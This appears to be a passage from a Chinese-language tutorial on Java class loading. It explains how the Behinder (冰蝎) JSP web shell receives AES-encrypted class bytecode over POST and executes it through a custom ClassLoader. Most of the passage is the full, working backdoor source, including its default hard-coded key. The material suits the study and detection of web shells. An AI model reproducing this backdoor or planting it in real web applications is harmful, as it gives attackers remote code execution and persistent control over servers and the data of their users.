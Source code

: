 ## 类加载在webshell中的应用

冰蝎的 jsp 后门就是通过自定义类加载器去实现：冰蝎的客户端将待执行的命令或者代码通过动态编译成类字节码并加密传到冰蝎的 JSP 后门，后门经过base64编码和 AES 解密后得到一个随机类名的类字节码，然后调用自定义的类加载器加载，最终通过重写的`Object`类的`equals`方法实现攻击利用。其中`equals`方法传入的`pageContext`对象是为了便于获取到请求和响应对象，需要注意的是冰蝎的命令执行等参数不会从请求中获取，而是直接插入到了类成员变量中。

冰蝎 JSP 后门
```jsp
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {

        U(ClassLoader c) {
            super(c);
        }

        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
    }
%>
```

